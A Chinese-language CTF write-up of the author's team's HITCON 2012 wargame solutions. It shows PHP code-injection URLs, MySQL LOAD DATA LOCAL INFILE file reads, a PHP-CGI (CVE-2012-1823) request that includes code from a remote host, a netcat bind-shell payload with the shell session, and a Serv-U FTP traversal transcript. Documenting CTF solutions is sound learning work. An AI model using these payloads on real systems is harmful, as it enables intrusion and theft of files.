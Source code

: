 ```yaml
---
layout: post
title: "HITCON 2012 Wargame Notes"
date: 2012-07-22 11:27
comments: true
categories:
- hit
- hitcon
- note
- hack
- web
- wargame
---
```


今年是第二年來 HITCON ，去年感謝 atdog 大大帶我一起報名 HITCON 玩 wargame ，
本來想說和去年一樣解解 QR code 我就很開心了，沒想到今年運氣不錯 XD

感謝同隊 crax 的組員： atdog xman jeffxx cyen hliu kvchung

Wargame 題目有大大幫忙備分了：[HITCON 2012 Wargame](http://rsghost.org/backup/wargame.hitcon.org/)

## Wargame 心得

這次因為運氣好，所以有幾題 web 都用爛招解掉了 XD
用和 hint 沒關係的解法繞掉其實解的有點心虛，下面是今年我有幫到一些忙的題目：

### Web 1

主要就是利用 `{${fucntion()}}` 來直接執行 php function ，本來想用 `file_get_contents()` 來讀 `key.php` 發現被擋掉了，
所以就試著用 `include()` 再用 `get_defined_vars()` 和 `var_dump()` 看有沒有設什麼變數，還好 `key.php` 是把 key 放在變數裡，
不然的話就要用其他方法去看 source 了。

    http://wg.hack.idv.tw/~ow100/orange.php?name=dm4&data={${include($_GET[key])}}{${var_dump(get_defined_vars())}}
    http://wg.hack.idv.tw/~ow100/yourfiles/dm4.config.php?key=../key.php

### Web 2

利用 Web 3 給的 `sqln00b/sqln00b` 可以登入 phpMyAdmin ，接著把 `key.php` LOAD 到任何一個 table 就可以了：

    CREATE TABLE web2 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/ow200/public_html/key.php' INTO TABLE web2;

### Web 4

從 `info.php` 發現 `Server API: CGI` 想到應該是在說今年的 [PHP CGI vulnerability](http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/)
，這東西今年出來的時候有看一下，不過其實還是在解題的時候才真的看懂 XD

在 `htaccess.txt` 裡可以看到

    RewriteCond %{QUERY_STRING} \-|\-d[a-z_]+%3d|%2d[a-z_]+%3d [NC]

發現 `%2d` 擋的比較鬆，所以研究了一下可以用

    http://wg.hack.idv.tw/~w100/info.php?%2dd+allow_url_include%3dOn+%2dd+auto_prepend_file%3dhttp://myhost/a.txt

來做 remote code execution ，試了一下就可以發現要找的東西在 `../key.txt` ，所以在 `a.txt` 這樣寫就可以讓它噴 key 了：

    <?php
        system('cat ../key.txt');
        exit();
    ?>

本來以為這題這樣就結束了，不過我們想到既然可以用 `cat` ，搞不好這題可以......

    <?php
        system('nc -l -p 5566 -e /bin/bash');
        exit();
    ?>

然後......

    [~] $ nc wg.hack.idv.tw 5566
    id
    uid=1002(w100) gid=33(www-data) groups=1002(w100),33(www-data)

### Web 3

這題看 hint 應該是要用 mysql client 的 `system` 來解，不過我們利用 Web 4 拿到的 back connect shell
可以發現要找的東西是 `/home/my100/key.txt` ，所以一樣用：

    CREATE TABLE web3 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/my100/key.txt' INTO TABLE web3;

就可以在 Web 2 的 phpMyAdmin 看到 key 囉~

### Web 6

也是用爛招...... 用 Web 4 拿到的 shell 去看 Web 6 的 source ，在 `/home/a200/public_html/index.php`
裡面會判斷如果用 `admin` 登入的話，會噴 base64 encode 之後的 key

### Potent Pwnables 2

`nmap` 完之後發現有開 ftp ，查了一下發現有 [Serv-U FTP Jail Break](http://www.exploit-db.com/exploits/18182/)
和 hint 一模一樣應該就是它了吧 XD 不過那時候肚子太餓又找不到怎麼登入 ftp ，把連結跟 atdog 說了之後我就出去吃點心，
回來之後就被解掉了，id/pw 好像就是 `hitcon2012/hitcon2012` ，隊友好強啊！

關鍵是 `Plz Input "Your" Real ID:` 要用 `wargame.hitcon.org` 的帳號去 generate key.txt 接下來就：

    [~] ➟  ftp jumpochisun.blogsyte.com
    Connected to jumpochisun.blogsyte.com.
    220 Serv-U FTP Server v6.4 for WinSock ready...
    Name (jumpochisun.blogsyte.com:dm4): hitcon2012
    331 User name okay, need password.
    Password: 
    230 User logged in, proceed.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> get ..:/..:/..:/..:/key/dm4key.txt key.txt
    local: key.txt remote: ..:/..:/..:/..:/key/dm4key.txt
    227 Entering Passive Mode (114,36,241,246,15,231)
    150 Opening BINARY mode data connection for dm4key.txt (28 Bytes).
    100% |**************************************************|    28      179.89 KiB/s    00:00 ETA
    226 Transfer complete.
    28 bytes received in 00:00 (0.80 KiB/s)



剩下的時間都在試著解 Web 5 ，以及一直看 [駭客觀察日記](http://www.youtube.com/watch?v=l2dvg3KJoPo)
不過看到結束還是沒找到應該怎麼解......

再次感謝辛苦的主辦單位和工作人員！還有又強又好心收留我帶我一起玩的 crax 隊友！

爽啊！

<a href="http://www.flickr.com/photos/51077287@N06/7635469218/" title="Flickr 上 sunrisedm4 的 hitcon-2012-wargame-socre"><img src="http://farm9.staticflickr.com/8426/7635469218_ee0dbce135.jpg" width="500" height="225" alt="hitcon-2012-wargame-socre"></a>
